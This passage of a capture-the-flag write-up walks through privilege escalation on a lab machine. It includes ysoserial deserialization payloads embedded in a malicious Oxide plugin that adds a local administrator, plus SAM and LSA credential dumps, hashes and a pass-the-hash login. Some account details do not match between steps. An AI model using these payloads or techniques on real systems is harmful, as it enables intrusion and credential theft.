    Modified: 7/19/2021 7:14:02 AM
   =================================================================================================

    MasterKey: C:\Users\elpenor\AppData\Roaming\Microsoft\Protect\S-1-5-21-2336744602-1628778729-3133105333-1001\79a3ce7c-c6ad-49cc-a19e-89e90cd72225
    Accessed: 3/14/2021 3:09:39 AM
    Modified: 3/14/2021 3:09:39 AM
   =================================================================================================

    MasterKey: C:\Users\elpenor\AppData\Roaming\Microsoft\Protect\S-1-5-21-2336744602-1628778729-3133105333-1001\92e3dc9d-df09-405b-95e9-02322d370af6
    Accessed: 1/11/2024 7:12:04 PM
    Modified: 1/11/2024 7:12:04 PM
   =================================================================================================

    MasterKey: C:\Users\elpenor\AppData\Roaming\Microsoft\Protect\S-1-5-21-2336744602-1628778729-3133105333-1001\fe22ea1e-38da-49db-a405-7f35a8684d74
    Accessed: 5/6/2022 2:41:25 AM
    Modified: 5/6/2022 2:41:25 AM
   =================================================================================================
```

Unfortunately not that much, I would like to check if maybe we can use Printspoofer CVE with named pipes to become administrators?

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: All pipe instances are busy. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
```

No! Ok what is the used version used then? It is a Windows 10 build 17763:

```
*Evil-WinRM* PS C:\Temp> [System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      17763  0
```

I wanted to check for possible LDAP connection but it was failing and the reason is that this machine seems having no LDAP connection and not even being domain connected!

```
==========================
|    Target Information    |
 ==========================
[*] Target ........... odyssey.htb
[*] Username ......... 'elpenor'
[*] Random Username .. 'vfufdjml'
[*] Password ......... 'superman'
[*] Timeout .......... 5 second(s)

 ====================================
|    Listener Scan on odyssey.htb    |
 ====================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp
```

Next I decided to try to run a Windows exploit suggester via Metepreter session and these exploit were suggested:

```
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```

None of those worked out, so next I will try to see if this PE can be reached by using this exploit(https://github.com/ly4k/SpoolFool):

```
*Evil-WinRM* PS C:\Temp> ./SpoolFool.exe -dll .\AddUser.dll
[*] Using printer name: Microsoft XPS Document Writer v4
[*] Using driver directory: 4
[*] Using temporary base directory: C:\Users\elpenor\AppData\Local\Temp\3dc47ad7-0e84-482b-86f7-e5d58e845554
[*] Trying to open existing printer: Microsoft XPS Document Writer v4
[*] Failed to open existing printer: Microsoft XPS Document Writer v4
[*] Trying to create printer: Microsoft XPS Document Writer v4
[-] Failed to create printer: Microsoft XPS Document Writer v4
```

Damn it! I will move on for now, maybe this passwor dwill be found in future.

Next I forgot about the rust server, seems like we have credentials from rust?

```
*Evil-WinRM* PS C:\rustserver> cat run.bat
C:\rustserver\RustDedicated.exe -batchmode +server.port 28015 +server.level "Procedural Map" +server.seed 1234 +server.worldsize 1 +server.maxplayers 1  +server.hostname "odyssey" +server.description "Welcome to Odyssey." +server.url "http://odyssey.htb" +rcon.port 28016 +rcon.password WyYchAHsaKYTDNNW +rcon.web 1 +server.secure 0 +server.eac 0
```

* * *

## Back to Administrator:

Here i had to ask to another user for tips and got input to check for OXIDE rust plugins as a way to escalate to Admin.

Checking with ICACLS we can see that BUILTIN/Users have write permission on the plugin folder, this is a good start point:

```
*Evil-WinRM* PS C:\rustserver\oxide\plugins> icacls .
. BUILTIN\Users:(OI)(CI)(W)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  BUILTIN\Users:(I)(OI)(CI)(RX)
  BUILTIN\Users:(I)(CI)(AD)
  BUILTIN\Users:(I)(CI)(WD)
  CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

We can see how our plugin in C# should look like here: https://umod.org/documentation/api/getting-started

And got the tips to use insecure deserialization to execute codes, example add a new user to local admins. I will use this as reference for the deserialization: https://www.codeproject.com/articles/36671/net-framework-runtime-serialization

So firstly we need to create a B64 encoded serialized  command that will add a new user that we have control and then add it to local administrators:

```
PS C:\Users\Aleksandar\Downloads\Release> .\ysoserial.exe -g AxHostState -f BinaryFormatter -o base64 -c "net user yovecio Coglione1! /add && et localgroup Administrators yovecio /add"
AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUBAAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAOIDAAACAAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAhAY8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIG5ldCB1c2VyIHlvdmVjaW8gQ29nbGlvbmUxISAvYWRkICZhbXA7JmFtcDsgZXQgbG9jYWxncm91cCBBZG1pbmlzdHJhdG9ycyB5b3ZlY2lvIC9hZGQiIFN0YW5kYXJkRXJyb3JFbmNvZGluZz0ie3g6TnVsbH0iIFN0YW5kYXJkT3V0cHV0RW5jb2Rpbmc9Int4Ok51bGx9IiBVc2VyTmFtZT0iIiBQYXNzd29yZD0ie3g6TnVsbH0iIERvbWFpbj0iIiBMb2FkVXNlclByb2ZpbGU9IkZhbHNlIiBGaWxlTmFtZT0iY21kIiAvPg0KICAgICAgPC9zZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICA8L3NkOlByb2Nlc3M+DQogIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KPC9PYmplY3REYXRhUHJvdmlkZXI+Cws=
PS C:\Users\Aleksandar\Downloads\Release>
```

Here i noticed i did a mistake to not write my code into the main class void so the code wasn't executing at all... Now we should upload the code in the plugin folder and wait for execution! Remember to rename the name to match the class name EpicStuff.cs:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# cat EpicStuff.cs
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

namespace Oxide.Plugins
{
    [Info("Epic Stuff", "Unknown Author", "0.1.0")]
    [Description("Makes epic stuff happen")]
    class EpicStuff : CovalencePlugin
    {
        private void Init()
        {
            Puts("A baby plugin is born!");
            //Put your B64 encoded serialized payload here
            byte[] payload = Convert.FromBase64String("AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAFEvYyBuZXQgdXNlciB5b3ZlY2lvIENvZ2xpb25lMSEgL2FkZCAmJiBuZXQgbG9jYWxncm91cCBBZG1pbmlzdHJhdG9ycyB5b3ZlY2lvIC9hZGQGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw==");
            BinaryFormatter bf = new BinaryFormatter();
            Stream ms = new MemoryStream(payload);
            bf.Deserialize(ms);
        }
        //The rest of the code magic
        //TODO (you): Make more epic stuff
    }
}
```

And now we have the user:

```
*Evil-WinRM* PS C:\rustserver\oxide\plugins> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           elpenor
Guest                    pwned                    sshd
WDAGUtilityAccount
The command completed with one or more errors.
```

Now we can dump the SAM file:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# crackmapexec smb  odyssey.htb -u 'pwned' -p 'password123#' --sam   
/usr/local/lib/python3.11/dist-packages/requests/__init__.py:87: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.1.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "
SMB         odyssey.htb     445    ONLINE           [*] Windows 10.0 Build 17763 x64 (name:ONLINE) (domain:online) (signing:False) (SMBv1:False)
SMB         odyssey.htb     445    ONLINE           [+] online\pwned:password123# (Pwn3d!)
SMB         odyssey.htb     445    ONLINE           [+] Dumping SAM hashes
SMB         odyssey.htb     445    ONLINE           Administrator:500:aad3b435b51404eeaad3b435b51404ee:c606623dc66bad2c670d402d4a33d2b7:::
SMB         odyssey.htb     445    ONLINE           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         odyssey.htb     445    ONLINE           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         odyssey.htb     445    ONLINE           WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b2aee3361c843009143be1a935d8db9b:::
SMB         odyssey.htb     445    ONLINE           elpenor:1001:aad3b435b51404eeaad3b435b51404ee:72f5cfa80f07819ccbcfb72feb9eb9b7:::
SMB         odyssey.htb     445    ONLINE           sshd:1002:aad3b435b51404eeaad3b435b51404ee:696df4f224281d855e7716d56acc2bc8:::
SMB         odyssey.htb     445    ONLINE           pwned:1003:aad3b435b51404eeaad3b435b51404ee:e5abfbc0410c5ce37bae2276dee52aaf:::
SMB         odyssey.htb     445    ONLINE           [+] Added 7 SAM hashes to the database
```

Same for the LSA:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# crackmapexec smb  odyssey.htb -u 'pwned' -p 'password123#' --lsa 
/usr/local/lib/python3.11/dist-packages/requests/__init__.py:87: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.1.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "
SMB         odyssey.htb     445    ONLINE           [*] Windows 10.0 Build 17763 x64 (name:ONLINE) (domain:online) (signing:False) (SMBv1:False)
SMB         odyssey.htb     445    ONLINE           [+] online\pwned:password123# (Pwn3d!)
SMB         odyssey.htb     445    ONLINE           [+] Dumping LSA secrets
SMB         odyssey.htb     445    ONLINE           ONLINE\elpenor:superman
SMB         odyssey.htb     445    ONLINE           dpapi_machinekey:0xa3fbedd4e6150c0dd7f5327a1041b1713163ff33
dpapi_userkey:0xe2e8e5d2bd4eb0ed6c6436a2fe916e37b655ab73
SMB         odyssey.htb     445    ONLINE           NL$KM:cf2220010b1a2eb719dc4fb3a5009253d0be10bc80e16e3ae3919cce593f3e0e473bdcfd5c8c0579eefcb0a609d30f6aa9ec467f3a2f69742bc768bfdb9cc6e0
SMB         odyssey.htb     445    ONLINE           [+] Dumped 3 LSA secrets to /root/.cme/logs/ONLINE_odyssey.htb_2024-01-18_123455.secrets and /root/.cme/logs/ONLINE_odyssey.htb_2024-01-18_123455.cached
```

Lastly we can use the Administrators HASH to login via PTH and grab the second flag on the machine!

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
ODYSSEY{Ded1CA7eD_rU57_5ERVeR}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

&nbsp;